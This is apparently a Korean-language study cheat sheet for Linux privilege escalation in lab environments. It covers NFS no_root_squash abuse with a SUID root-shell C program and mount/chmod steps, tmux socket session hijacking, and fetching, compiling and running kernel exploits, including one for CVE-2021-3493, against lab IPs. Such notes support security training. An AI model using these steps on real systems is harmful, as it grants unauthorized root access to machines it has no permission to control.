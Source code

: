 cat /etc/exports
```

| 옵션               | 설명                                                                                                                                                        |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `root_squash`    | 루트 사용자가 NFS 공유에 액세스하는 데 사용되는 경우 권한이 없는 계정인 `nfsnobody` 사용자로 변경됩니다 . 루트 사용자가 만들고 업로드한 모든 파일은 `nfsnobody`사용자가 소유하므로 공격자가 SUID 비트가 설정된 바이너리를 업로드하는 것을 방지합니다. |
| `no_root_squash` | 로컬 루트 사용자로 공유에 연결하는 원격 사용자는 루트 사용자로 NFS 서버에 파일을 만들 수 있습니다. 이를 통해 SUID 비트가 설정된 악성 스크립트/프로그램을 만들 수 있습니다.                                                    |

```
cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```
```
gcc shell.c -o shell
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
./shell
```

## Tmux 세션 하이재킹
```
tmux -S /shareds new -s debugsess
chown root:devs /shareds
ps aux | grep tmux
ls -la /shareds
tmux -S /shareds
```

<br/><br/>
# 커널 익스플로잇

## 커널 익스플로잇 예제
```uname -a```<br/>
```cat /etc/lsb-release```

- [익스플로잇](https://vulners.com/zdt/1337DAY-ID-30003)
```
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
./kernel_exploit
```

### 다른 커널 익스플로잇
```
wget https://raw.githubusercontent.com/briskets/CVE-2021-3493/refs/heads/main/exploit.c
$ scp exploit.c htb-student@10.129.2.210:~/.
